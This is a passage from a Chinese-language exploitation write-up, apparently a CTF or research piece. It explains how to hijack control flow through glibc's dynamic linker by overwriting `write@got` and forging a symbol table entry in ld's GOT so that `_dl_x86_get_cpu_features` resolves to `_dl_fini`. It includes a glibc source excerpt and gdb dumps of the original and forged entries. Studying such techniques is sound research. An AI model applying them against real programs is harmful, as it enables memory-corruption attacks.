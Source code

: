 ```c
            // compiler 確保在 inline functions 當中的 template static data members 跟 static local variables 為 unique
            case STB_GNU_UNIQUE:;
                do_lookup_unique(undef_name, new_hash, (struct link_map *)map,
                                 result, type_class, sym, strtab, ref,
                                 undef_map, flags);
                return 1;

            default: break;
            }
        }

    skip:;
    } while (++i < n); // 當前 score 的 list entry 個數 (n == scope->r_nlist)
    return 0;
}
```

- 結果會存在傳進來的 `sym` pointer 當中



在這個階段中我們的目標為在 `write@got` 寫入 `_dl_fini()` 的位址，並且先 disable 呼叫 destructor，這樣就能在蓋寫 `_dl_init_array` 後控制程式的執行流程。



首先我們在 `_GLOBAL_OFFSET_TABLE_`，也就是 ld 的 GOT table 當中構造出一個 fake symbol table entry，目標 symbol 可以為任意的動態鏈結變數，在這次利用中使用的是 `_dl_x86_get_cpu_features()`，並且我們只需要變動 `st_value` 成 **target function address - ld base address**，這樣就能在 `_dl_x86_get_cpu_features()` 被執行到時呼叫 target function。

- P.S. `_dl_x86_get_cpu_features()` 為 Glibc2.33 之後才有



這裡的 target function 為 `_dl_fini()`，比較原本的 `_dl_x86_get_cpu_features` symbol：

```shell
$1 = {
  st_name = 358,
  st_info = 18 '\022',
  st_other = 0 '\000',
  st_shndx = 13,
  st_value = 113584,
  st_size = 12
}
```

構造出的 `_dl_x86_get_cpu_features` symbol：

```shell
$4 = {
  st_name = 358,
  st_info = 18 '\022',
  st_other = 0 '\000',
  st_shndx = 13,
  st_value = 67136,
  st_size = 12
}
```

